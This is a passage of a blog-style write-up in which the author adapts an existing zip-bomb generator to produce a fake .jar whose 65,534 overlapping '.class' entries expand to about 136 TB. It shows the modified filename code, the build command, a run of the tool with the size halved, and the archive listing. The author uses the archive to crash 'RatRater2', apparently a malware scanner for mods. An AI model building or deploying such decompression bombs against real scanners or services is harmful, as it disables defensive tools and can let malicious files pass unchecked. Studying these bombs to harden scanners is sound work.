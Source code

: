 ```python
    letters = []
    while True:
        letters.insert(0, FILENAME_ALPHABET[i % len(FILENAME_ALPHABET)])
        i = i // len(FILENAME_ALPHABET) - 1
        if i < 0:
            break
    return bytes(letters + list(b".class"))
```
Notice that `.class` is added to the end of every filename, and I added a bunch of file-safe characters (on GNU/Linux at least) to the alphabet (as Fifield wanted to make sure the zipbombs were compatible with Windows and Mac too). The `Makefile` says this is the command to use to make the 10 MB -> 200 TB zipbomb:
```make
zblg.zip:
    $(ZIPBOMB) --mode=quoted_overlap --num-files=65534 --max-uncompressed-size=4292788525 > "$@"
```
So, let's give it a run!
```
❯ python3 zipbomb --mode=quoted_overlap --num-files=65534 --max-uncompressed-size=4292788525
Traceback (most recent call last):
  File "/home/Dev380/zipbomb/zipbomb", line 813, in <module>
    main()
  File "/home/Dev380/zipbomb/zipbomb", line 810, in main
    mode(sys.stdout.buffer, num_files, compressed_size=compressed_size, max_uncompressed_size=max_uncompressed_size, compression_method=compression_method, zip64=zip64, template=template, extra_tag=extra_tag, max_quoted=max_quoted)
  File "/home/Dev380/zipbomb/zipbomb", line 636, in write_zip_quoted_overlap
    header_bytes = files[0].header.serialize(zip64=zip64)
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/Dev380/zipbomb/zipbomb", line 396, in serialize
    return struct.pack("<LHHHHHLLLHH",
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
struct.error: 'L' format requires 0 <= number <= 4294967295
```
I still haven't figured out what this error means, but it's fine - I can just cut the `--max-uncompressed-size` in half (100 TB ought to be enough, right?)

And... the command works! Let's see the output of the command with `unzip` (remember, most zip utilities don't crash from zip bombs when they just open zip files and not decompress them)
```
❯ unzip -l skyutils.jar
...
2292789091  1982-10-08 13:37   9x].class
2292789052  1982-10-08 13:37   9x+.class
2292789013  1982-10-08 13:37   9x=.class
2292788974  1982-10-08 13:37   9y0.class
2292788935  1982-10-08 13:37   9y1.class
2292788896  1982-10-08 13:37   9y2.class
2292788857  1982-10-08 13:37   9y3.class
2292788818  1982-10-08 13:37   9y4.class
2292788779  1982-10-08 13:37   9y5.class
2292788740  1982-10-08 13:37   9y6.class
2292788701  1982-10-08 13:37   9y7.class
2292788662  1982-10-08 13:37   9y8.class
2292788623  1982-10-08 13:37   9y9.class
2292788584  1982-10-08 13:37   9yA.class
2292788545  1982-10-08 13:37   9yB.class
2292788506  1982-10-08 13:37   9yC.class
2292788467  1982-10-08 13:37   9yD.class
---------                     -------
150339325883963                     65534 files
```
That's 136 TB! Sure enough, RatRater2's CPU usage skyrockets and crashes from attempting to unzip all that.
